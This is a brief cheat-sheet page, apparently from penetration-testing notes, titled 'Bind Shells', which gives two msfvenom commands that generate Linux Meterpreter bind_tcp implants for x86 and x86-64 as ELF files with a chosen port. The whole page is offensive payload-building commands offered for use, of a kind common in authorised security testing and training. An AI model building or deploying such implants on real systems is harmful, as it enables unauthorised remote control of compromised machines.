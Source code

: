 # Bind Shells

x86 (32-bit) payload.

```
$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o implant-x86
```

x86-64 (64-bit) payload.

```
$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o implant-x64
```